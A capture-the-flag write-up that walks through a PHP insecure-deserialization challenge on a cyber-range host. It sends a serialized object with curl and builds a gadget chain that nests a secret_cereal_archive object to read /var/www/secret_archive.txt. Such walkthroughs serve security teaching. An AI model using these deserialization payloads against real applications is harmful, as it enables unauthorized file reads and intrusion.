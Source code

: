 Note how they said that you should serialize the cereal entry. This can also be confirmed with the code above. To start we need to figure out what to send in the first place. We'll make a class object and serialize it:
```php
$class = new cereal();
$class->cereal_name = "blah";
$class->cereal_flavor = "blah";
$class->cereal_brand = "blah";
echo serialize($class);
```

This gives us:
```
O:6:"cereal":3:{s:11:"cereal_name";s:4:"FLAG";s:13:"cereal_flavor";s:4:"blah";s:12:"cereal_brand";s:4:"blah";}
```

Lets build our curl command:
```
curl -X POST https://cerealize.challenges.virginiacyberrange.net/cerealize.php -F 'cereal="O:6:\"cereal\":3:{s:11:\"cereal_name\";s:4:\"blah\";s:13:\"cereal_flavor\";s:4:\"blah\";s:12:\"cereal_brand\";s:4:\"blah\";}"'
```

- `curl`: cmd
- `-X`: type of request
- `POST`: specify type
- `https..`: website to send request to
- `-F`: specify the next input is form-data (since $_POST doesn't see request body data)
- `'cerea..`: the form data under the "cereal" parameter


We can verify this works if we run it:
```
┌──(kali㉿kali)-[~]
└─$ curl -X POST https://cerealize.challenges.virginiacyberrange.net/cerealize.php -F 'cereal="O:6:\"cereal\":3:{s:11:\"cereal_name\";s:4:\"blah\";s:13:\"cereal_flavor\";s:4:\"blah\";s:12:\"cereal_brand\";s:4:\"blah\";}"'
...

Thanks for submitting a new cereal for our archive!You told us aboutblah; we'll see if it's in our archive! If not, we'll add it.
</html>
```

Looks like that's good, now we know that the `cereal_name` parameter is being printed in:
```php
public function display_submission(){
	echo "You told us about" . $this->cereal_name . "; we'll see if it's in our archive! If not, we'll add it.";
}
```

This means we need to somehow call `(string) new secret_cereal_archive()`. Since we can serialize objects, why not make a `secret_cereal_archive` object?
```php
$exploit = new secret_cereal_archive();
$exploit->filename = "/var/www/secret_archive.txt";

$class = new cereal();
$class->cereal_name = $exploit;
$class->cereal_flavor = "FLAVOR";
$class->cereal_brand = "BRAND";
echo serialize($class)
```
